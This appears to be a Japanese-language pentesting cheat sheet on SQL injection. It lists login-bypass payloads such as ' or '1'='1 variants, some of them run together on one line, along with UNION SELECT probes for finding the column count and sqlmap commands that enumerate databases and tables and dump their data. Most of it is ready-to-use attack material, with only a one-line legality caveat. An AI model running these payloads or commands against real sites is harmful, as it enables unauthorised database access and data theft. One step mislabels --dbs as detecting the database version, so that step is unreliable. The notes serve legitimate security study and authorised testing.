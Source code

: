 # Basic
- ## 有効性のチェック
  - ' or '1'='1';--を入力し、普通に入力した時との違いがあるかをBurpSuite等を使って確認する。
- ## テーブル数を特定する。
  - ' union select null;--
  - これでカラム数に関するエラーが出れば徐々に増やしていく。
  - aaa' union select null, null, null, null, null;--


- admin'or '1'='1
- 'or '1'='1
- 'or '1'='1 --
- "or "1"="1
- "or "1"="1"--"or "1"="1"/*"or "1"="1"#"or 1=1
- "or 1=1 --"or 1=1 -
"or 1=1--"or 1=1/*"or 1=1#"or 1=1-
") or "1"="1
") or "1"="1"--") or "1"="1"/*") or "1"="1"#") or ("1"="1") or ("1"="1"--
") or ("1"="1"/*") or ("1"="1"#) or '1`='1-
★1'or 1=1#

# sqlmap
- SQLmapは、SQLインジェクションの検出や悪用に特化したツールです。以下はSQLmapの基本的な使用例です：

1. **目標のURLを特定する**: SQLmapを使用して検査する対象のウェブサイトやウェブアプリケーションのURLを特定します。

2. **検査の開始**: SQLmapを使用して、目標のURLに対してインジェクション攻撃を実行します。以下のようにコマンドを入力します：

   - sqlmap -u <target_URL>
   例: `sqlmap -u http://example.com/page.php?id=1`

3. **自動検出**: SQLmapは自動的にSQLインジェクションの脆弱性を検出しようとします。検出された場合、詳細な情報が表示されます。

4. **脆弱性の調査と悪用**: SQLmapは、検出した脆弱性を利用してデータベースから情報を抽出したり、悪用したりするためのさまざまなオプションを提供します。以下はその一例です：

   - データベースのバージョンを検出する: 
     ```
     sqlmap -u <target_URL> --dbs
     ```

   - 特定のデータベースのテーブルを列挙する: 
     ```
     sqlmap -u <target_URL> -D <database_name> --tables
     ```

   - 特定のテーブルからデータを取得する: 
     ```
     sqlmap -u <target_URL> -D <database_name> -T <table_name> --dump
     ```

これらはSQLmapの基本的な使用例です。ただし、SQLmapを使用する際には、標的となるウェブサイトやアプリケーションが合法的な検査であることを確認し、権限を持たないシステムに対して攻撃を行わないように注意する必要があります。

 参考サイト
https://shukapin.com/security/sqlmap

https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap
option
description
example
-u
URL
sqlmap -u http://10.10.10.1/
--batch
Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers

--dbs
 Names of the available databases

--all
Retrieve everything
